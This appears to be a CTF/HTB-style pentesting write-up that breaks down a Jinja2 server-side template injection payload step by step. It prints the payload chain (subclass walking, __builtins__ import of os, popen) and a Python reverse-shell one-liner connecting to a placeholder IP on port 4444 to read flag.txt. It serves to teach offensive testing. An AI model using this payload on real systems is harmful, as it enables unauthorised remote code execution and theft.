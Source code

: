 Yes, it’s **ugly**. And yes, it’s **powerful**. As a web app pentester, it’s important to at least understand this at a **high level**:

- It’s basically iterating over Python’s **internal classes** to find a way to execute OS commands.
- It uses `popen` to run a **Python reverse shell** (in this example, pulling in the contents of `flag.txt`).

So, if you see payloads like this during an engagement (or on HTB), don’t panic—treat them like any other **tool** in your kit. Keep notes on how they work, save them in your personal GitHub repo, or revisit **PayloadsAllTheThings** for a refresher. They’re meant to be **dropped in**, tested, and (hopefully) let you shell the box.

### **Breaking Down the Madness: Jinja2 RCE Payload Explained**

Alright, let’s take a step back because this payload looks like absolute chaos at first glance. If you're wondering, **"What the hell am I even looking at?"**, you're not alone. But don't worry, we’re gonna break it down **high-level style** so it actually makes sense.

#### **Step 1: What’s Happening Here?**

```python
{% for x in ().__class__.__base__.__subclasses__() %}
```

- This **loops through Python’s internal subclasses** to find something useful.
- Specifically, it's looking for a **class related to warnings**, because some warning-related classes expose **built-in functions** that can execute system commands.

#### **Step 2: Finding the Right Class**

```python
{% if "warning" in x.__name__ %}
```

- This **filters** for subclasses that contain `"warning"` in their name.
- The reason? There’s a sneaky way to **access Python’s built-in modules** through certain system warning classes.

#### **Step 3: Importing the OS Module & Running a Command**

```python
{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; ...
```

- **`__import__('os')`** dynamically imports the **OS module**, which lets us interact with the system.
- **`popen()`** is used to execute a command, in this case, a **Python one-liner reverse shell**.

#### **Step 4: What’s Actually Running?**

```python
python3 -c 'import socket,subprocess,os; 
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); 
s.connect(("ip",4444)); 
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2); 
p=subprocess.call(["/bin/cat", "flag.txt"]);
```
